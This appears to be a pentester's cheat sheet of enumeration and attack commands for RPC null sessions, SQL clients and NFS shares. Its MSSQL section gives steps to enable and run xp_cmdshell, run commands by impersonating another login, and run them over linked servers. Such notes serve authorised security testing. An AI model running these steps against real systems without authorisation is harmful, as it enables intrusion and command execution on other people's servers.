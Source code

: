   
# RPC
[Useful RPC commands](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration)
rpcclient -N -U "" [host]
rpcclient -U [domain]/[user]%[password] [host]
- -N ⇒ no password
    
- --pw-nt-hash ⇒ supplied password is an nt hash
    
  
# SQL
MySQL: mysql -h [host] -P [port] -u [username] -p'[password]'
PostgreSQL: PGPASSWORD=[password] psql -h [host] -p [port] -U [username]
  
MSSQL
impacket-mssqlclient [domain]/[username]:[password]@[host] -port [port] -windows-auth
  
### Interesting Functions
use master;
EXEC sp_helprotect 'xp_cmdshell';
EXEC sp_helprotect 'xp_regread';
EXEC sp_helprotect 'xp_regwrite';
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
  
### Command Execution
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
EXEC sp_configure 'show advanced options', '1';  
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell [command];
  
### Impersonate
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';  
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;  
EXECUTE AS login = '[user]'; [query];
EXECUTE AS login = '[user]'; EXEC xp_cmdshell '[command]';
  
### Over Link
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
SELECT * FROM OPENQUERY("[target (srvname)]", '[query]');
SELECT * FROM OPENQUERY("[target]", 'SELECT @@SERVERNAME; exec xp_cmdshell ''[command]''');
Note: When using xp_cmdshell with OpenQuery, prepend a dummy query before it or else it won’t work.
  
# NFS
rpcinfo -p [host]
showmount -e [host]
mount [host]:[share] /mnt/[dir]
unmount /mnt/[dir]
  